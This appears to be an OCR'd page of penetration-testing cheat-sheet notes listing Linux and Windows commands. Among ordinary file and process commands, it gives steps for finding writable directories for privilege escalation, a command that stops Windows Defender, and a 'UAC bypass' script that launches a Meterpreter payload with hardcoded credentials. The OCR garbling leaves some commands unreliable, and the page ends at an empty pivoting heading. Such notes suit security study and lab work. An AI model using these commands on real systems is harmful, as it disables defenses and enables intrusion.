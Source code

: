 ## USEFUL LINUX COMMANDS

Find file by name:

> $ find /home/username/ -name "\*.err"

Find writable directories:

> $ find / -perm -o+w  
> $ find . -perm -o+w -exec chmod +t {} +  
> $ find / -writable  
> $ find / -type d \\( -perm -g+w -or -perm -o+w \\) -exec ls -adl {} \; \| grep drwxrwsr

pipe to clipboard

> $ ls \| xclip -selection c

tar

> $ create  
> ▪ tar -cvf linux\_priv\_esc.tar.gz /root/Desktop  
> $ unzip  
> ▪ tar xvzf linux\_priv\_esc.tar.gz

kerbros auth

> $ xfreerdp /u:alice /v:10.11.1.50

## USEFUL WINDOWS COMMANDS

Find log files in directory

> $ dir /s \*log\*

Process

> $ tasklist  
> $ taskkill /F /PID pid\_number

Disable windows defender:

> $ sc stop WinDefend

UAC bypass:

> $ echo &gt; $username = "alice" &gt; run.ps1 $ echo &gt; $secpasswd = ConvertTo-SecureString "aliceishere" -AsPlainText -Force &gt;&gt; run.ps1  
> echo &gt; $mycreds = New-Object System.Management.Automation.PSCredential \(" &gt; $username", &gt; $secpasswd\) &gt;&gt; run.ps1 &gt; $ echo Start-Process veil\_meterpreter.bat -Credential \( &gt; $mycreds\) &gt;&gt; run.ps1

```text
> $ powershell -ExecutionPolicy Bypass -File run.ps1
```

## PIVOTING

Dynamic Port Forwading:
